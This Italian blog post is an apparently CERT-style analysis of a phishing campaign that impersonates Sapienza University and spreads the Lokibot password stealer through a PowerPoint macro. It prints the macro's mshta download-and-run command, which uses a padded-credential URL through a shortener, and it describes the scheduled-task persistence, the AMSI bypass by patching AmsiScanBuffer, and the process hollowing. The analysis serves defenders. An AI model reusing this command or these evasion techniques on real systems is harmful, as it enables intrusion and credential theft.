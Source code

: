 +++
description = "circolazione malware"
title = "Falsa email sapienza"
type = "post"
date = 2020-05-04
+++


I criminali dietro al malware Lokibot, in grado di rubare le password da un lungo elenco di programmi (di cui molti sensibili), nel tentativo di fare quante più vittime possibile, hanno diffuso e-mail che all’apparenza sembrano provienire dall’Università della Sapienza di Roma.

I loghi e i riferimenti inseriti sono contestualizzati in un layout approssimativo, così come il corpo del messaggio.
Questi elementi, unitamente ai riferimenti all’Università di Belgrado inseriti nella parte finale dell’e-mail, sono sufficienti a smascherare la natura malevola del messaggio.
Per rendere più verosimile la comunicazione, la scelta del mittente del messaggio è ricaduta su admin@uniroma1.it, quando in realtà il messaggio risulta inviata da dominio kamarakis.gr.
L’avvio della catena di infezione è demandata ad un documento PowerPoint RICHIEDI OFFERTA 21-7-2020.ppt che effettua, tramite una serie di download, l’esecuzione del malware Lokibot.

L’utilizzo di un documento PowerPoint per veicolare malware è stato visto raramente nel panorama italiano, tuttavia non vi sono motivi tecnici dietro la scelta (i file MS Office presentano lo stesso formato, come contenitori), ma sono da prediligersi i fattori umani: in ambito lavorativo un documento Word o Excel è meno sospetto ad un’amministrazione.
In questa particolare campagna è più utile per i criminali usare un file PowerPoint in quanto spesso usato per le presentazioni di progetti.
Dettagli tecnici

Il documento PowerPoint contiene una macro VBA di semplice interpretazione che si riduce ad eseguire il comando (tramite il metodo Shell di un oggetto Wscript):

mshta https://%69%69%69%69%69%69%69%69%69%69%69%69%69%69%69%69%69%69%69%69@j.mp/asdxasmxoaoskxosdkasodkaos

Da notare due aspetti:

    Gli URL usati presentano un nome utente (in questo caso si tratta del carattere “i” ripetuto 20 volte), ovvero una stringa variabile seguita da una chiocciola.
    A tutti gli URL è possibile aggiungere una coppia di credenziali date da nome utente e password.
    Tuttavia se la richiesta HTTP non richiede autenticazione, queste sono ignorate dal server.
    Questa tecnica permette agli attaccanti di generare potenzialmente infinite forme diverse del solito URL, aggirando i dispositivi di sicurezza che non normalizzano l’URL prima di decidere se bloccarlo o meno.
    Viene usato lo strumento MSHTA, pensato per eseguire applicazioni HTML, spesso sfruttato dai malware per scaricare ed eseguire il payload.

L’URL indicato riguarda un servizio di URL shortening appartenente a Bitfly e rimanda ad un paste sulla piattaforma pastebin.com.

Il contenuto del paste presenta uno script VBS (mostrato sotto) che ha il compito di:

    Scaricare un’altra applicazione MSHTA da un altro paste e garantirne la persistenza creando un apposito task schedulato ogni sei minuti.
    Garantire la persistenza del malware creando e registrando due script in autorun che scaricano altre applicazioni MSHTA.
    Scaricare una seconda applicazione MSHTA e garantirne la persistenza registrando uno script all’avvio.

In totale vengono usate quattro applicazioni MSHTA.
L’applicazione scaricata al punto 1) non fa altro che eseguire uno script PowerShell, ovviamente per evitare di essere rilevata dagli AV e dall’utente utilizza le seguenti tecniche:

    Salva il contenuto dello script nella chiave di registro HKCU\Software\fucku e lo esegue tramite uno script powershell wrapper che recupera il valore della chiave ed invoca iex (Invoke-Expression).
    Utilizza WMI per creare un processo PowerShell con la finestra nascosta.

Script VBS esegue payload PowerShell

Il payload PowerShell, una volta riformattato è di semplice analisi, il suo compito è quello di scaricare due script (codificati in varianti di dump esadecimali) direttamente dalla piattaforma pastebin.com.
Payload PowerShell riformattato

Gli script hanno una struttura simile: un payload compresso in formato GZIP salvato come dump esadecimale (con caratteri extra per eludere gli antivirus) che viene salvato nella variabile $decompressedByteArray, ed un assembly .NET (sempre compresso) che viene caricato ed eseguito ed ha il compito di bypassare AMSI.

Il payload del primo script è il malware Lokibot, il payload del secondo script è un assembly .NET, già conosciuto (il nome del metodo rOnAlDo.ChRiS è già apparso in letteratura), che ha il compito di eseguire Lokibot tramite Process Hollowing.
AMSI bypass

Il dropper utilizza un assembly .NET per disabilitare AMSI, la tecnologia di Microsoft per la scansione dei malware.

L’assembly è uno strumento noto e in uso presso gli APT, sebbene sia un assembly .NET il codice CIL (managed) presente non è molto indicativo perchè il modulo è offuscato tramite una tecnica che recupera il puntatore a varie funzioni managed del framework .NET che saranno invocate mediante questi puntatori.

A questo si aggiunge una forte offuscazione di tipo control-flow e la presenza di una risorsa binaria con formato sconosciuto.

Con pazienza è comunque possibile analizzare l’assembly, il suo algoritmo è infatti (una volta deoffuscato) molto banale: viene usato uno shellcode (esistente nelle versioni a 32 e 64 bit) che carica la DLL amsi.dll tramite le API di Windows (che sono importante dal TEB) e patcha il metodo AmsiScanBuffer per far ritornare il codice di errore associato ad un parametro non valido.

La stringa di trademark dell’assembly contiene il nome della dll amsi.dll e il nome del metodo AmsiScanBuffer, in modo che questi non compaiono come stringhe nel codice .NET.
Il payload è generato a partire dalla risorsa binaria con varie letture ad offset specifici.

L’assembly che effettua il process hollowing usa una tecnica di offuscazione analoga, oltre al process hollowing, controlla ed interferisce con la presenza di un debugger in un ciclo di un apposito thread.

Indicatori di Compromissione

Si riportano di seguito gli indicatori di compromissione già condivisi tramite le piattaforme CNTI e MISP di Cert-AgID, a tutela delle strutture accreditate.